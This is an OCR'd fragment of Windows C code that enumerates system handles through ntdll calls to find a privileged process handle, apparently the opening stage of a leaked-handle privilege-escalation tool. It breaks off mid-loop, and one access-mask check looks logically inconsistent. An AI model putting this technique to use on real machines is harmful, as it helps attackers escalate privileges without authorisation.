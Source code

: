 ```c
    UNICODE_STRING objectName;
    ULONG returnLength;
    HMODULE hNtdll = GetModuleHandleA("ntdll.dll");
    DWORD dwOwnPID = GetCurrentProcessId();

    pNtQuerySystemInformation = GetProcAddress(hNtdll, "NtQuerySystemInformation");
    pNtDuplicateObject = GetProcAddress(hNtdll, "NtDuplicateObject");
    pNtQueryObject = GetProcAddress(hNtdll, "NtQueryObject");
    pRtlEqualUnicodeString = GetProcAddress(hNtdll, "RtlEqualUnicodeString");
    pRtlInitUnicodeString = GetProcAddress(hNtdll, "RtlInitUnicodeString");

    printf("[+] Grabbing handles...");

    while ((status = pNtQuerySystemInformation( SystemHandleInformation, phHandleInfo, handleInfoSize,
                                            NULL )) == STATUS_INFO_LENGTH_MISMATCH)
        phHandleInfo = (PSYSTEM_HANDLE_INFORMATION) realloc(phHandleInfo, handleInfoSize *= 2);

    if (status != STATUS_SUCCESS)
    {
        printf("[!] NtQuerySystemInformation failed!\n");
        return 0;
    }

    printf("done.\n[+] Fetched %d handles.\n", phHandleInfo->NumberOfHandles);

    // iterate handles until we find the privileged process handle
    for (int i = 0; i < phHandleInfo->NumberOfHandles; ++i)
    {
        SYSTEM_HANDLE_TABLE_ENTRY_INFO handle = phHandleInfo->Handles[i];

        // Check if this handle belongs to our own process
        if (handle.UniqueProcessId != dwOwnPID)
            continue;

        objectTypeInfo = (POBJECT_TYPE_INFORMATION) malloc(0x1000);
        if (pNtQueryObject( (HANDLE) handle.HandleValue,
                        ObjectTypeInformation,
                        objectTypeInfo,
                        0x1000,
                        NULL ) != STATUS_SUCCESS)
            continue;

        // skip some objects to avoid getting stuck
        // see: https://github.com/adamdriscoll/PoshInternals/issues/7
        if (handle.GrantedAccess == 0x0012019f
            && handle.GrantedAccess != 0x00120189
            && handle.GrantedAccess != 0x120089
            && handle.GrantedAccess != 0x1A019F ) {
            free(objectTypeInfo);
            continue;
        }

        // get object name information
        objectNameInfo = malloc(0x1000);
        if (pNtQueryObject( (HANDLE) handle.HandleValue,
                        ObjectNameInformation,
                        objectNameInfo,
                        0x1000,
                        &returnLength ) != STATUS_SUCCESS) {

            // adjust the size of a returned object and query again
            objectNameInfo = realloc(objectNameInfo, returnLength);
```